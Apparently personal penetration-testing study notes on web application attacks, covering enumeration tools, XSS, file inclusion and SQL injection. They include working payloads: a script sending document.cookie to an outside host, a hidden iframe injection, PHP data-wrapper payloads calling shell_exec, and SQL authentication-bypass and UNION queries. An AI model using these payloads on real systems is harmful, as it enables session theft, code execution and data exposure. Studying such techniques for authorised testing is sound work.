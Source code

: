 # Web Application Attacks

## Web Application Enumeration

- Programming language and frameworks
- Web server software
- Database software
- Server operating system

## Web Application Assessment Tools

1. dirb

- `r` scan no-recursively
- `z` to add N millisecond delay to each request

```bash
dirb url -r -z 10
```

tips:
> DirBuster is a Java application similar to DIRB that offers multi-threading and a GUI-based interface.

2. BurpSuite

proxy tools

- Firefox: FoxyProxy
- Chrome: SwitchyOmega

3. Nikto

- `maxtime` scan time limit
- `T` tune the scan
- `host` host

```bash
nikto -host=url -maxtime=30s
```

## Exploiting Web-based Vulnerabilities

### 0x01. Exploiting Admin Console

1. dirb
2. burp suite

> dicts: https://github.com/danielmiessler/SecLists.git


### 0x02. Cross-Site Scripting (XSS)

#### a. basic

1. DOM

> DOM-based XSS attacks are similar to the other two types, but take place solely within the page’s Document Object Model (DOM).

2. Reflected(Persistent XSS)

> Reflected XSS attacks usually include the payload in a crafted request or link. The web application
takes this value and places it into the page content. This variant only attacks the person
submitting the request or viewing the link.

3. Stored

> occurs when the exploit payload is stored in a database or otherwise cached by a server

#### b. Identifying XSS Vulnerabilities

> < > ' " { } ;

>let’s describe the purpose of these special characters. HTML uses “<” and “>” to denote
elements,262 the various components that make up an HTML document. JavaScript uses “{” and
“}” in function declarations. Single (’) and double (") quotes are used to denote strings and
semicolons (;) are used to mark the end of a statement.

> If the application does not remove or encode these characters, it may be vulnerable to XSS as the
characters can be used to introduce code into the page.

#### c. Basic XSS

> <script>alert('XSS')</script>

#### d. Content Injection

> <iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>

apache log-file path: /var/log/apache2/access.log

#### e. Stealing Cookies and Session Information

> The Secure271 flag instructs the browser to only send the cookie over encrypted connections,
such as HTTPS. This protects the cookie from being sent in cleartext and captured over the
network.

> The HttpOnly272 flag instructs the browser to deny JavaScript access to the cookie. If this flag is
not set, we can use an XSS payload to steal the cookie

PHPSESSID

> <script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>

cookie-editor, firefox, https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/

#### f. Other XSS Attack Vectors

1. keystroke loggers
2. phishing attacks
3. port scanning
4. content scrapers/skimmers

BeEF, the Browser Exploitation Framework, that can leverage a simple XSS vulnerability to launch many different client-side attacks

### 0x03. directory traversal(path traversal vulnerabilities)

> allow us to read files of any type, including those outside the web root directory

### 0x04. File Inclusion Vulnerabilities

> file inclusion allow attacker to include a file into the application's running code

1. Local file inclusions(LFI)


2. Remote file inclusions(RFI)

> need allow_url_include = on

PHP:
    1. register_globals
    2. allow_url wrappers

tips:

> start a simple http server
```bash
python -m SimpleHTTPServer listen_port  # python 2.x
python -m http.server listen_port     # python 3.x
ruby -run -e httpd . -p listen_port   # ruby
busybox httpd -f -p listen_port       # busybox
```

*php wrappers*

```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
http://10.11.0.22/menu.php?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKTsgPz4
```


### 0x05. SQL injection

1. authentication bypass

```sql
select * from users where name = 'tom' or 1=1;#' and password = 'jones'
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

2. Enumerating the Database

    a. column number enumeration

    ```sql
    select * from xxxx order by [num range test]
    ```

    b. Understanding the layout of the output

    ```sql
    select * from xxx union [all] select [1..column number]
    ```

    c. extracting data from the database

    ```sql
    select * from xxx union [all] select [1..column number with some information in ]
    
    @@version # db version
    user()  # current user
    table_name from information_schema.tables # enumerate database tables
    column_name from information_schema.columns where table_name='table_name'
    ```

    d. Code Execution

    - load_file:
    - into outfile

    ***tips*

    > 如果文件读写受限, 需要设置 secure_file_priv=''

3. Automating SQL Injection

    a. sqlmap

   ```bash
   sqlmap -u url -p param
   ```
   